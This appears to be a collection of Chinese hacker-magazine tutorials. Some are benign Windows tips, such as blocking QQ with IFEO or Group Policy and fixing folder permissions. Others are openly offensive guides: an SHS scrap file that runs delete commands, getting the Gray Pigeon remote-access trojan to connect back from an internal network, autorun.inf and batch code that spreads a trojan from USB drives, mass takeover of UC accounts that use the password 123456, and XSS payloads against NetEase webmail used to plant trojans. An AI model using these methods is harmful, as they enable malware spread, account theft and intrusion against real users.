我们已经知道了SHS的一些原理，那到底要怎么制作一个能自动执行命令的SHS碎片文件呢？我们在Windows 2000系统中的c:\windows\system32\目录下找到名为packager.exe的可执行文件，这是一个对象包装程序。双击打开它，如图1，我们所说的制作SHS文件，就需要用到它。


先在硬盘里创建一个文件名为red.reg的注册表文件，回到我们的对象包装程序上来，然后新建一个文件，再打开“文件”菜单下的“导入”，随便选择一个文件就可以了，比如我选择了一个jpg文件。接着我们打开“编辑”菜单下的“命令行”选项，在弹出的命令行中输入“cmd.exe /c del F:\我的小菜\red.reg”，点击“确定”，如图2。


然后在“编辑”菜单中选择“复制包”，如图3。最后，我们在桌面上点右键，选择“粘贴”，这时我们就可以看到在桌面上创建了一个碎片对象文件，如图4。双击它，CMD窗口一闪而过，再到F盘查看，red.reg已经被删除了。

这个碎片对象文件保存了原来对象所具备的功能，原来对象包含的命令同样会被解析执行，这正是其可怕之处，如果在文件中包含了format之类的命令，那后果不堪设想呀。

文件在执行后会多出来一个msdtc.exe的进程，关闭以后马上又会自动运行，而且你的那个碎片对象文件也不能删除，在我关闭了三次进程后那个文件就可以删除了，在删除以后msdtc.exe就不会再运行了！

我们要如何防范这类的陷阱文件呢？可以从注册表中进行设置，使SHS文件的扩展名显示出来。来到注册表HKEY_CLASSES_ROOT\.shs主键下，将默认值ShellScrap删除，现在双击.shs文件就不会执行了。

现在随着病毒文件和恶意文件的不断演变，五花八门的文件陷阱也越来越多，这就需要在平时多多留心，了解其运行机制，从而避免掉入这些危害极大的陷阱中。

（文章中涉及到的packager.exe已经收录在光盘中）


### 禁止运行非法程序——从QQ说起

无敌小龙（张博）

有好多读者朋友都是做网络维护的吧，是不是老板下了命令要让其他用户在工作期间无法运行和登录QQ这类聊天工具呢，那么怎么才能限制某些程序的运行和限制上网聊天呢？下面我就给大家介绍几种方法。

#### 一、DLL文件法

首先给大家介绍一个文件ws2_32.dll，它是个动态链接库文件，位于系统文件夹中，Windows在查找动态链接库文件时会先在应用程序当前目录搜索，如果没有找到，然后才会搜索Windows所在目录，如果还是没有，就会搜索system32和system目录。几乎所有的网络程序一般都要调用这个DLL文件中的API函数进行网络通讯，所以我的想法就是替换掉程序目录下面的ws2_32.dll文件。具体做法是新建一个不具备ws2_32.dll文件功能的dll文件，然后替换掉程序目录下面的ws2_32.dll文件，因此一些网络程序在调用这样一个没有用的DLL文件后，就会导致无法正常运行了。本方法适用于基于NT的系统，比如WinXP/Win2000/Win2003。

如果我们要限制QQ的运行，就先找到QQ的安装目录，然后新建一个文本文件，最后把文本文件的名称修改为ws2_32.dll，其实这个文件只是一个空文件，什么内容都没有，如图1。现在，再来运行QQ，结果弹出了如图2所示的对话框。可以看到QQ因为调用了错误的DLL文件中的API函数而导致其无法正常地运行。使用这种方法可以禁止几乎所有的网络程序运行，大家在知道原理后，解除限制的方法也很简单，只要删除ws2_32.dll文件即可。


#### 二、IFEO法

所谓的IFEO就是Image File Execution Options，它位于注册表的`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`这个键值处，由于这个项主要是用来调试程序用的，对一般用户意义不大。如果在这个项下建立一个名为qq.exe的项，然后在其下建立一个键为debugger，那么当运行进程为QQ.EXE的程序时，就会首先启动DEBUGGER下面的程序路径，而非你运行的程序所在的路径。


我们编写一个注册表文件如下，然后保存为“禁止QQ运行.reg”。

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.exe]
"debugger"="debugger.exe"
```

运行注册表文件“禁止QQ运行.reg”，可以看到注册表的QQ.exe项被修改成了如图3所示的样子。


现在来运行QQ，可以看到QQ已经无法运行了，如图4。要解除因为IFEO而导致的QQ无法运行，只需要删除注册表中新增的那个QQ.exe项即可。


#### 三、组策略法

点击“开始”-“运行”，在弹出的“运行”栏中输入“gpedit.msc”，单击“确定”后，打开系统组策略编辑窗口，如图5。

在打开的组策略中，依次展开该窗口中的“用户配置”-“管理模板”-“系统”，在对应“系统”项右边的子窗口中找到“不要运行指定的WINDOWS应用程序”，如图6。


作者：侯少杰 E_mail: Benteng2000@126.com

双击后就会弹出“不要运行指定的WINDOWS应用程序”属性窗口，如图7，选择“已启用”，然后点击“不允许的应用程序的列表”后的“显示”按钮，在新出现的对话框中点击“添加”，在输入框中输入QQ.exe，最后点击“确定”。这样就把QQ.exe加入到禁止运行的程序中了。经过上面的配置，确定保存，最后关闭组策略。现在再来运行我们的QQ，可以看到WINDOWS系统已经禁止该程序的运行了，如图8。如果要想重新允许运行QQ程序，大家可以在“不要运行指定的WINDOWS应用程序”属性框中选择未配置单选钮。

#### 四、工具法

我给大家介绍一款工具，叫做“全面禁止程序运行”，选择要禁止的程序路径，比如我们选择QQ路径，然后点击“禁止运行”按钮，可以看到程序已经被加入到禁止程序列表中了，如图9。现在再来运行QQ，已经提示无法运行了。
（本文所涉及到的全面禁止程序运行Ver1.2已经收录到光盘中）


### 把机密文件隐藏到回收站

magic.6.star

相信叉子们最反感的就是自己重要的文件被别人偷看吧，假如遇到好友借用电脑而又无法拒绝，但又不想自己的“机密文件”被他们看到，那该怎么办呢？不用担心，我给大家说一个小妙招，可以利用WinRAR把机密文件隐藏到回收站中（需要你的电脑上安装有WinRAR，一般都有吧！实在没有就到网上下载一个吧），利用回收站来隐藏文件还是有很多好处的：

- 1、回收站是存放“垃圾”文件的地方，不易被人注意到。
- 2、隐藏在回收站中的文件即使打开回收站也无法看到。
- 3、隐藏在回收站中的文件即使回收站被清空也不会被清除。

下面就来看看我是如何实施“保密作战”计划的吧。

第一步：启动WinRAR，在状态栏上点击磁盘图标，选择C盘，然后单击“Recycled”，打开C盘中的回收站文件夹，如图1。


图1


图2


图3


图4

第二步：在工具栏上点击“添加”，打开“压缩文件名和参数”的对话框，如图2，在“文件”选项中点击“追加”，添加要隐藏的机密文件，如图3。

第三步：在“高级”选项中，点击“设置密码”，输入一个密码，同时勾选上“加密文件名”，如图4，完成上述步骤后点击“确定”，你的机密文件就被打包隐藏在回收站里了，再进入资源管理器将源文件删除，现在除了你还有谁能找到被隐藏的文件呢？即便有人利用WinRAR在回收站文件夹中发现了这个压缩包，但由于文件名已经被加密，也无法打开这个压缩包。

如果自己要查看机密文件怎么办呢？方法很简单，启动WinRAR进入C盘回收站，选择要解压的机密文件压缩包，解压释放到指定文件夹即可，如图5。在整个过程中我们必须注意一点，由于WinRAR会记住上次关闭时打开的文件夹，所以为了防止机密文件压缩包被发现，操作完成后务必将WinRAR地址栏转换到其它路径，否则下次打开WinRAR时就会直接进入回收站。这样的话你的文件可能就会被发现哦。
（本文所涉及到的WinRAR已收录到光盘中）


图5

### 看菜鸟玩转镜像劫持

邱若鹏

大家对镜像劫持都不陌生吧，许多病毒就是采用这种方法来躲过杀毒软件的查杀，所谓镜像劫持（IFEO），就是在注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options” 处新建一个以杀毒软件主程序命名的项，例如Rav.exe。然后再创建一个子键“Debugger= 指定病毒程序路径”，以后只要用户双击Rav.exe，就会激活此病毒程序，从而使病毒可以长时间处于激活状态。当然，应用在病毒领域的镜像劫持还是有一定杀伤力的，然而我们也可以通过把这项技术充分的利用起来。

在平时的学习中难免会遇到有同学跟自己来借电脑，倘若只是查查资料，聊会儿QQ 倒也没什么，但如果有人只是为了游戏……反正我是极度厌恶的，可是又不想删掉游戏程序，那怎么办呢？下面我们就可以利用镜像劫持了，要用到的工具是CCD 映像劫持工具，如图1。

工具界面非常的傻瓜，很容易上手的，比如我们要劫持的游戏对象是实况足球8国际版，那么只需要把实况8 的游戏进程WE8 输入到“输入/选择被劫持对象”栏，然后在“输入/选择映射对象”输入我们指定的程序路径就可以了。这样一番设置后，我的电脑对于一部分人来说基本上是没有利用价值了，但我们自己想玩了，只需要双击右边栏的记录，就可以轻松恢复程序了，如图2。

我们也知道有很多功能要强于微软系统自带的第三方系统工具，比如记事本，资源管理器之类的，利用这个劫持工具就可以为我们达到替换的目的。工具是不是很实用呢，病毒程序身上所使用的技术未必都是对系统不利的，只要我们去发现，完全可以更好的利用。

（文章中涉及到的CCD 映像劫持工具已经收录在光盘中）


### 小菜这样来拯救迅雷

丁维竹

这天我到网吧上网，想下载一部电影来看，但是没想到亲爱的迅雷竟然不让安装，经过一番周旋，我终于把她从网吧的魔爪中拯救了出来。特将此整个过程写出来和各位小菜分享。迅雷下载完后在安装时弹出了三个对话框，提示不能安装，如图1，图2，图3。

从图2 中可以看到，原来是在注册表中设置了禁止安装的项，想必这个Uninstall 里面一定也禁止了不少软件吧！找到这个注册表项，其中果然有迅雷，如图4。


- RealJukebox 1.0
- RealPlayer 6.0
- ShockwaveFlash
- thunder_is1
- Windows Media Form


当我想要删除这个注册表项时却提示删除不了，如图 5。我打开冰刃，找到如图 6 所示的这个注册表项，点击右键删除，这时我们再来重新安装迅雷，安装成功了，如图 7。


图 5


图 6

当我双击迅雷的图标运行它时，却又弹出了如图 8 所示的一个对话框，到底是哪个程序限制了这次操作呢？我陷入了沉思中，后来我去问了一下 google 大叔，他告诉我

本次操作由于这台计算机的限制而被取消。请与您的系统管理员联系。这句话的出现应该和组策略有关。于是我马上按 win+R 键调出“运行”窗口，输入 gpedit.msc 来打开组策略，依次打开“用户配置”—“管理模板”，点击“系统”，在右边找到“只运行许可的 windows 应用程序”和“不要运行指定的 windows 应用程序”这两项，把它们设置为“已禁用”，然后退出组策略，再次双击运行迅雷，没想到原来的中文对话框变成了英文的，如图 9，点击确定，又弹出了一个对话框，如图 10，再次点击确定，框框没了，迅雷还是没有运行。再次双击迅雷，这回总算成功运行，如图 11。就这样，我成功的把她从网吧的魔爪中拯救了出来。


图 7


图 8


图 9


图 10


图 11

### 内网之灰鸽子上线又有新招

magic.6_star

在内网中如何让灰鸽子上线是令小菜们很头疼的一个问题，在第六期杂志中 mutoum 同学向我们介绍了利用 vnn 实现内网中灰鸽子上线的教程，感觉很新鲜，于是我马上下载了一个，安装完毕后运行，按照书上的提示进行注册，结果却发现无论怎样填写都会返回“no”，这是为什么呢？研究了半天，还是没有头绪，情急之下跑到 vnn 的官方论坛求助，发现了好多询问该问题的帖子，原来碰到麻烦的人还不止我一个啊！最后我找到了管理员的 QQ，加为好友后一问，对方回答说“由于 vnn 3 个人版的负载已经达到最大值，出现了一些不稳定的情况，因此我们暂时关闭了注册。”，唉，vnn 不能使用了，那灰鸽子要如何才能上线呢？我只好踏上了艰苦的探索之旅。好在最终还是被我找到了在内网中上线的方法，一个人不敢私藏，私自拿出来贡献给大家。

我们要用到的工具主要有南北网桥网络加速器、南北网桥加速器无限使用破解补丁以及灰鸽子控制端一个。打开南北网桥网络加速器的安装程序，然后按照提示进行安装，安装前需要确保系统开启了 Telephony、Protected Storage and Routing and Remote Access 服务，否则会出现如图 1 所示的提示信息。另外还要注意，加速器不适合于 Windows9x 和 VISTA 系统，对于经过服务优化的 Windows2000 以上操作系统和精简的操作系统，需要将提示缺少的文件拷贝到 system32 目录下。对于设置严格的防火墙系统，比如设置严格的企业网、校园网等，也将无法连接。我第一次去网吧测试时就遇到了软件不允许安装的问题，不过这并不是我们今天要研究的问题。

| 提示 | 内容 |
| --- | --- |
| 建立连接失败 | 请开启 Telephony、Protected Storage and Routing and Remote Access 服务。 |

图 1

该软件的安装很傻瓜，不牵扯系统注册服务，因此大家可以先在别处安装好，再把安装文件夹打包上传到空间中，遇到不允许安装的情况时可以直接下载压缩包，解压后运行主程序即可。

由于是收费软件，“南北网桥”需要缴费注册才能使用，不过软件自身也提供了一个测试帐号，帐号和密码均为 test。登录测试帐号，根据你的情况选择“网通”或“电信”，当“公网模式”不行时可以换为“内网模式”，一般都能登录上去的，如图 2。


图 2

登录成功后，我们调出 cmd 命令提示符，输入命令 ipconfig 来查看返回结果，发现多出了个 IP 地址 10.10.3.101，如图 3。灰鸽子在配置时的上线 IP 地址就要用到它。现在转入另一个话题，由于测试帐号有登录体验时间限制，为了解决这个问题，这里就要用到另一个软件“南北网桥加速器无限使用破解补丁”。打开后点击“开通无限使用”，就可以发现测试帐号的时间已经停止了，如图4，这样无需注册我们就可以享受VIP服务，还不错吧！


我们打开灰鸽子来配置服务端，这和六期杂志中的一样，先去“www.3326.com”注册一个ID，然后申请免费空间。免费空间申请好后，就可以使用FTP进行IP更新了，如图5。上传成功后打开地址查看IP更新，果然没错，如图6，现在就可以安心的配置灰鸽子了。生成服务端后我使用本机进行了下测试，运行服务端稍等片刻后就能看到肉鸡已经上线了，如图7，至此内网灰鸽子上线测试成功完成。

(本文所涉及到的南北网桥网络加速器、南北网桥加速器无限使用破解补丁、灰鸽子2008贺岁版已经收录到光盘中)


### 菜鸟也来用autorun.inf传播木马

朽木公子/文

记得在以前的杂志里曾经介绍过如何利用U盘到打印室来传播灰鸽子的，不过传统的autorun.inf都是直接“open=木马.exe”，但这样有一个缺点就是直接双击打不开。现在的用户都学聪明了，一旦双击打不开就会意识到了出问题，而且对于陌生的U盘一般也不会直接双击打开的，要么是使用鼠标右键打开，要么是在资源管理器中打开，这样单纯的一句“open=木马.exe”是没办法传播我们的木马的。

对于使用鼠标右键和在资源管理器中打开的方法，要想突破也很简单，只要把我们的autorun.inf改成下面这样就可以：

```
[AutoRun]
OPEN=木马.exe
shell\open=打开(&O)
shell\open\Command=木马.exe
shell\open\Default=1
shell\Explore=资源管理器(&X)
shell\Explore\Command=木马.exe
shell\Explore\Default=1
```

这样不管对方是使用鼠标右键打开还是在资源管理器中打开都会运行我们的木马，但这样仍然有个问题没有解决——双击无法打开U盘！以前我曾经中过一个叫做360safe.exe的病毒，它会在每个磁盘下生成一个autorun.inf和一个病毒文件，但是我双击打开磁盘却可以打开。这一点让我很奇怪，后来发现它是这样实现的：首先还是在U盘里存放一个autorun.inf文件，但是这个autorun.inf打开的不是木马，而是一个批处理文件，而这个批处理文件的作用就是打开我们的木马并删除autorun.inf，这样双击就可以打开磁盘了。批处理的内容如下（假设U盘盘符为h）：

```
@echo off
del %~d0\autorun.inf
start %~d0\木马.exe
start h:\
```

不过这种方法还不够完美，因为批处理文件在运行时会现出cmd窗口，我们可以使用批处理潜行者这个工具把BAT文件生成一个EXE文件，并实现隐藏运行。打开批处理潜行者，如图1，选择无cmd窗口并生成EXE，这样生成的EXE文件在运行的时候就没有cmd窗口了。大家只要把autorun.inf指向这个EXE文件就可以了。


(本文所涉及到的批处理潜行者已经收录到光盘中)

编辑/孔令建

### 盗取UC号码之奇思异想

爱好黑客技术的小黑们一定盗过QQ号吧，但是如果要让他们去盗UC号的话，就会发现无从下手，这主要是因为没有人公布过盗取UC号码的软件。今天我就给大家介绍一种盗取UC号码的方法。

#### 小知识：新浪UC聊天软件是什么？

新浪UC是国内较早投入研发的一款即时通讯软件，集传统即时通信软件功能于一体，是融合P2P思想的新一代开放式网络即时通信娱乐软件，将有声有色、图文并茂的场景聊天模式，视频电话、可断点续传的文件传输、能够多人聊天的多人世界、消息群发功能和在线游戏功能以及同学录（团体）等有机结合，形成了一个完整的网上即时通讯娱乐平台。

首先我们打开EXCEL或WPS表格，输入一个正确的UC号码并且在号码后面输入四个“-”字符，如图1，我输入的是自己的UC号码。选择“编辑”菜单下“填充”，然后选择“序列”，如图2。在弹出的“序列”对话框中，将“步长值”设定为1，然后点击“确定”按钮，如图3。

经过上面的设置后，把鼠标定位到第一个号码的单元格右下角，也就是“52415566——”这个单元格的右下角，定位成功后，鼠标会变成一个十字架的形状，此时按住鼠标左键向下拖动，如图4。


我拖动了1200个单元格，也就是形成了1200个号码，如图5。在拖动出的所有号码上按下“CTRL+C”组合键，也就是把所有的内容复制到剪贴板中，然后新建一个记事本文件，并把剪贴板中的内容粘贴到记事本中，如图6。

选择记事本“编辑”菜单下的“替换”，如图7，在弹出的“替换”对话框中，“查找内容”栏填入“————”，“替换为”栏填入“——123456”，如图8。可能有小白不明白，这样做的目的是什么呢？我给大家解释一下，大家都使用过或者见过ASP收信的QQ盗号程序吧，比如著


无敌小龙

### 看我免费用瑞星

司徒浩男 / 张超

瑞星在国外推出了完全免费的瑞星国际版，其实这一版本是全功能的，我们只要将简体中文语言包复制到安装目录中的指定文件夹内就可以实现简体中文环境了，然后就可以免费使用和升级了。

瑞星国际版本的下载地址是 http://www.freerav.com/，如图1，在安装国际版时要选择繁体中文语言，如图2，安装完毕后先别重启系统，把“重新启动电脑”前的勾去掉，然后点“完成”，如图3。


图 1


图 2


图 3

如果我们已经安装了繁体版，需要在主动防御里关闭自我保护。打开瑞星的主程序，点击“设定”——“防御设定”，输入验证码后就来到了主动防御设定的界面，我们把最下面一项“启动自我保护”前的勾去掉，然后“确定”，如图4，最后将简体中文语言包内的文件复制到安装目录中的 Language 文件夹内，重新启动计算机。


图 4

重启后我们再打开瑞星，就会发现它已经变成简体中文版了，如图5，点击“软件升级”，把病毒库升级到最新，接下来就可以免费使用和升级了。


图 5

（文章中涉及到的简体中文语言包已经收录在光盘中）

---

名的阿拉QQ 大盗就有这个功能。在这样的盗号软件中，有一个ASP 收信功能，如果使用这样的收信方式，接收到的帐户和密码就是“帐户”+“——”+“密码”的形式，UC 号码也是一样的。在填写好内容后，点击“全部替换”按钮进行替换，如图8。

全部替换完成后，记事本中的内容就变成了如图9所示的这样，把这个记事本文件保存为UC.TXT。


图 9

| 序列号 | 密码 |
| --- | --- |
| 52415567 | 123456 |
| 52415568 | 123456 |
| 52415569 | 123456 |
| 52415570 | 123456 |
| 52415571 | 123456 |
| 52415572 | 123456 |
| 52415573 | 123456 |
| 52415574 | 123456 |
| 52415575 | 123456 |
| 52415576 | 123456 |
| 52415577 | 123456 |
| 52415578 | 123456 |
| 52415579 | 123456 |
| 52415580 | 123456 |
| 52415581 | 123456 |
| 52415582 | 123456 |
| 52415583 | 123456 |
| 52415584 | 123456 |
| 52415585 | 123456 |
| 52415586 | 123456 |
| 52415587 | 123456 |
| 52415588 | 123456 |
| 52415589 | 123456 |
| 52415590 | 123456 |
| 52415591 | 123456 |
| 52415592 | 123456 |
| 52415593 | 123456 |
| 52415594 | 123456 |
| 52415567 | 123456 |

现在请出“UC挂机助手”，选择“UC挂机助手”中的“导入号码”，在弹出的“导入UC 号码”对话框中找到刚才保存的UC.TXT 文件，如图10。


图 10

然后点击“UC 挂机助手”中的“开始挂机”（点击后就变成了“停止挂机”按钮），不一会儿，我们就会看到一些密码设置为123456 的UC 号码登录成功了，只要在软件中显示出了该UC 号码的在线时间就表示该UC 号码的密码为123456，如图11。设置弱口令实在是对自己网络帐户的不负责任呀，小菜们一定要引以为鉴！

| UC号码 | 状态 |
| --- | --- |
| 52415635 | 登录失败,可能密码错误! |
| 52415636 | 登录失败,可能密码错误! |
| 52415637 | 登录失败,用户名不存在! |
| 52415638 | 登录失败,可能密码错误! |
| 52415639 | 登录中... |
| 52415640 | 登录中... |
| 52415641 | 登录失败,可能密码错误! |
| 52415642 | 登录中... |
| 52415643 | 登录失败,可能密码错误! |
| 52415644 | 登录失败,可能密码错误! |
| 52415645 | 登录中... |
| 52415646 | 登录中... |
| 52415647 | 登录失败,可能密码错误! |
| 52415648 | 登录失败,可能密码错误! |
| 52415649 | 登录失败,可能密码错误! |

UC数量:[1200] 失败:[0]

图 11

现在我们打开“UC 用户登录程序”，在其中输入刚才得到的UC 号码和密码，点击“登录”后就会成功登录了，如图12。就这样一个UC 号码轻轻松松的就到手了！


图 12

（本文所涉及到的UC 挂机助手已经收录到光盘中）

### 将校园共享进行到底

张无忌

我们学校使用了一个DrCom 服务器，强制所有人必须下载 Ishare_user 后才能正常上网，该软件主要防止共享宽带上网和通过路由器共享上网。对于电信的这种卑鄙行为，我们怎么能够屈服呢？

再来简单介绍一下 Ishare_user 的工作原理，在我们使用PPPoE 拨号后，Drcom 服务器首先检查我们是否安装了能够正常工作的Ishare_user.exe，如果没有安装，则强制安装，现在的版本是3.49。ishare_user 的功能就是不断的告诉服务器，此客户端没有乱搞，可以提供上网服务。它是怎么知道客户端没有使用共享上网的软件呢？我们使用 OD 载入程序，按 Ctrl+n 后发现它调用了 CreateToolhelp32Snapshot 这个函数，如图1，它的作用就是建立进程快照后通过循环调用 Process32Next 实现进程枚举。至此我们已经大概知道了 ishare_user 的工作原理。具体原理是这样的：Ishare_user 通过设置一个或多个定时器，只要时间一到就会检查进程中是否有可疑进程，如果有的话就会断网并警告用户不要使用代理软件。明白了它的工作原理后，我们就开始对它动刀吧。

| 0040F0E0 | .rdata | 导入 | KERNEL32.CreateProcess |
| 0040F0E8 | .rdata | 导入 | KERNEL32.CreateToolhelp32Snapshot |
| 0040F10C | .rdata | 导入 | USER32.CreateWindowExA |

图 1

```
typedef struct tagPROCESSENTRY32
{
    DWORD dwSize;
    DWORD cntUsage;
    DWORD th32ProcessID;
    ULONG_PTR th32DefaultHeapID;
    DWORD th32ModuleID;
    DWORD cntThreads;
    DWORD th32ParentProcessID;
    LONG pcPriClassBase;
    DWORD dwFlags;
    TCHAR szExeFile[MAX_PATH];
} PROCESSENTRY32, *PPROCESSENTRY32;
```

其中我们关心的就是 szExeFile 和 ProcessID，对于 ishare_user来说ProcessID是没有用的，因为电脑重启后共享软件的PID就会发生变化，唯一不变的就是szExeFile，任务管理器把它叫作映像名称。这样就可以肯定ishare_user是通过进程名称来实现可疑进程的判断。再回到未修改的ishare_user，发现使用共享后的错误界面如图2所示，看到这个界面，我马上就想到判断应该在这个之前。


图 2

本机不可以使用代理软件，请关闭代理软件，并停止代理服务，然后重新拨号 ！！！
确定

到 宽带连接 的链接没有成功。重新连接被挂起。
重试 (R) = 55    取消    详细信息 (D)

我在W32DAsm中搜索“错误”，并没有搜索到，但是使用WinHex却找到了。这时候我突然想到了NGNAT.exe，会不会在exe文件中呢？带着这个疑问我在WinHex中搜索了一下，不仅找到了NGNAT，而且也找到了sygate，如图3。

```
00013660: 72 76 2E 64 6C 6C 00 00   73 79 67 61 74 65 2E
00013670: 72 6B 21 3D 30 00 00 00   73 79 67 61 74 65 6E
00013680: 72 6B 2E 64 6C 6C 00 00   67 65 74 69 6E 66
00013690: 65 78 65 2E 65 78 65 00   00 00 00 00 00 00 00
```

图 3


看来ishare_user就是通过判断进程名是否和这里存储的值相等来判断的。看到这儿我笑了，马上把6E改为00，当然这里你随便改多少都可以，顺便也把sgsrvr改了。

此时我还担心它是否有文件校验，点击保存后图标没有变，把以前的ishare_user结束掉，运行新的程序，拨号上网一切正常，运行SinforNAT并启动服务，此时那个错误提示不见了，至此破解就完成了。

（本文所涉及到的WinHex、Dr.COM Client\PPPoE3.49、ishare_user、SinforNAT已收录到光盘中）☑

### 将秘密锁进DLL里

槿 棣☆

大家都知道不少隐藏私密信息的方法吧，比如在CMD命令下利用COPY命令和位图文件进行合并，或者是建立特殊的文件夹，或者是利用加密工具来防止陌生人查看私密信息等。而我要给大家介绍一种别的方法，就是利用Restorator这个工具将私密信息装进DLL文件夹里。制作过免杀的朋友对于Restorator应该不会陌生吧，它是一款功能强大的资源编辑器，大家有没有注意到，有时当我们使用Restorator打开DLL文件，查看字符串的时候会发现什么？比如使用Restorator打开C:\WINDOWS\system32目录下的任意DLL文件，查看其字符串信息，是不是看到了关于这个DLL文件的文字资源信息，如图1。现在大家都明白了吧，我们就是要在这里修改它的字符串信息，把它改为我们需要加密的信息，下面就跟我一起来制作私密DLL文件吧！


图 1

首先我们备份出一个DLL文件，打开后删除其余信息，只留下字符串这一项（不删除也可以的，只是删除了看起来会比较舒服），直接点击“编辑模式（快捷键是F6）”，把字符串信息全部删除，然后就是添加我们的私密信息了，不过在编辑的时候一定要注意，资源中的每一行由一个ID，并且每个ID后面都有一个逗号，然后加上实际字符串来组成，一定要按照这种格式来写，否则会无法保存的，如图2。


图 2

修改完成后将文件保存就可以了，如果想查看的话还是利用Restorator打开该文件，查看字符串信息就可以了，是不是很方便也很安全啊！现在又有谁能够想到，在这些DLL文件中会藏着你的私密信息呢，不过你可千万别忘记是把它藏到哪儿了呀！

（本文所涉及到的Restorator已收录到光盘中）☑


### 教你利用网易邮箱来跨站挂马

废人

在网上看了几篇跨站的文章，发现跨站最终都要用到脚本语言，比如javascript和vbscript。所以要想成为跨站高手，就必须要学好脚本语言。这次我要测试的为网易的邮箱，网易邮箱有很多种，包括mail.163.com、mail.126.com、mail.yeah.net等，它们不但界面美观大方还免费赠送网盘，可以说是目前网上最好的免费邮箱了。

我们先使用mail.163.com来进行测试，跨站可以先用常用的简单跨站语句来做“探路先锋”，比如、、等。首先编辑源文件，其内容如下：,,，编辑完成后发送邮件给自己，打开自己发送过来的邮件，查看源码后发现它们变成了,,。对比后发现关键字javascript被替换成了java_script，onerror被替换成了on_error，并且删除了expression以及其后的语句。我想这就像杀毒软件用特征码辨别病毒一样，邮箱以“javascript”，“onerror”等为“特征码”进行了过滤，那我们也就像免杀所用的修改特征码的方法那样来修改一下我们的跨站代码，看它能否达到躲过过滤的目的。将上边的代码以“&#xx”的编码形式进行修改，修改后的代码如下：
，测试后发现还是被过滤掉了。此时我想起杂志上以前曾经介绍过使用全角字符来进行突破的，于是就把这段代码修改成了（其中x是全角字符），测试后成功弹出了窗口，如图1，而且这个窗口是无法关闭的。


这下似乎找对方向了，写入挂马代码</iframe>'))">，成功镶入了百度页面，如图2。


查看一下源文件，发现被过滤成了<iframe src=http://www.baidu.com></iframe>，看来还是不够严格的，利用javascript中的insertAdjacentHTML函数重新写入代码<b style="feiren:ｅｘpression(document.body.insertAdjacentHTML('afterbegin', '<iframe width=200 height=200 src=http://www.baidu.com></iframe>'))"></b>，成功镶入并且能控制框架的大小，如图3。


再查源文件代码，发现完全没有被过滤，<b style="feiren:ｅｘpression(document.body.insertAdjacentHTML('afterbegin', '&lt;iframe width=200 height=200 src=http://www.baidu.com/&gt;&lt;/iframe&gt;'))"></b>被原封不动的执行了。接下来我又使用上述代码分别测试了mail.126.com和mail.yeah.net，同样成功的执行了挂马代码，如图4，图5。下面的事情就不用我说了吧，快去群发挂马邮件来抓肉鸡去吧！


## 黑客术语补习

### 什么是提权（提升权限）

现在的操作系统，为了安全，都引入了权限这个概念，那么，到底权限是什么呢？我们举个简单的例子来说明吧。比如系统管理员设置甲用户只允许访问A目录，设置乙用户只允许访问B目录，那么，甲用户是不能访问B目录，而乙用户也是不能访问A目录的，他们更不允许来更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录甚至是使得自己能够像管理员那样来获取对整个系统的控制，这就是提权。


### 解决WinXP重装后原文件夹拒绝访问的故障

王兴龙

因为病毒的原因我就重装了XP系统，但重装后却发现“我的文档”中的一些文件打不开了，老是提示拒绝访问。XP原来是安装在C盘的，而“我的文档”在原来的XP系统中是调整到了D盘的一个文件夹，当时这样做的目的是为了避免重装系统时忘记备份而将我的文档中的内容格式化掉。记得原来在单位使用电脑时也遇到过类似的情况，只是当时没什么重要的文件，也就没有办法去解决这个问题。可现在情况不一样了，那里面有许多重要的文件，而且当时将这个文件夹设为专用了，这可能是造成“拒绝访问”的原因。我查了一下，果然不只“我的文档”中的一些文件，以前设为专用的一些文件夹都拒绝访问，推断是由于同一原因造成的。

是不是再新建一个同样名称的用户就能访问呢？经试验，这样是不行的，因为在XP系统中，每个用户都有一个唯一的SID。我于是到网上搜索了一下，原来有许多朋友也遇到过这种问题，而且也有许多热心的朋友提供了多种解决方法。

经参考各路豪杰提供的绝招，又经过实践，终于总结出解决此类问题的一个良方，发在这里贡献给各位，希望对遇到同类问题的朋友有所帮助。

- **1.** 以具有管理员权限的用户登录XP系统，在XP中打开资源管理器，选择菜单“工具”→“文件夹选项”，打开“文件夹选项”对话框。在对话框中单击“查看”选项卡，把“使用简单共享（推荐）”前的复选框清空。
- **2.** 右键单击原来设为专用的文件夹，比如“AAA”，从弹出的快捷菜单中选择“属性”，这时会看到在对话框中多出一个“安全”选项卡。可以看到这里有一个未知账户，这应该是原来XP系统中的那个账户吧？这个账户能够访问该文件夹的，可问题是我们现在已经不能使用这个账户了，所以要另想办法。
- **3.** 点击如图2所示对话框中的“高级”按钮，会弹出“AAA的高级安全设置”对话框，显示目前该项目的所有者为刚才看到的未知账户。选择“所有者”选项卡，将“将所有者更改为”框中的用户改为现在使用的用户名称，然后单击“应用”按钮，在弹出的“安全”对话框中单击“是”按钮，接着单击“确定”按钮返回。

选中下方的“替换子容器及对象的所有者”，单击“应用”按钮，就会看到有一个取得文件夹中所有文件和文件夹所有权的进程，现在问题就解决了。


### 第15招：让文件夹加密，你真的安全吗？

Yizhigu

随着文件加密技术的日新月异，对比以往的文件夹隐藏技术已经被文件夹加密技术所代替，更多的用户选择文件夹加密这种方式，既保护了用户资料，同时也秀一把自己的计算机应用能力。那么文件夹加密是如何实现的？它是否真的安全呢？本文将带你一起探讨这个问题。我特意挑选了两款应用非常广泛的文件夹加密工具：金锁文件夹加密特警和宏杰文件夹加密。

#### 一、“金锁文件夹加密特警”篇（WinCPH）

这是一款成名多年的综合性加密工具，其便捷的操作及强大的功能赢得了很多忠实的用户。我选用的是 WinCPH 6.08 破解版，直接来看文件夹加密功能吧。首先打开 WinCPH 的文件夹加密功能，选取一个文件目录，输入密码后就能实现文件夹加密。我们打开这个加密文件夹看一下效果，如图1。


随便输入一个口令，出现错误提示，这时候我想到了古老的内存明文漏洞，那么如何利用呢？我们不要点“确定”，打开内存编辑工具 WinHex，点开功能按钮的“梳子”图标，此处实现 RAM 编辑功能，在内存区域选择“Eni”，然后点击“整个内存”，如图2。


图2

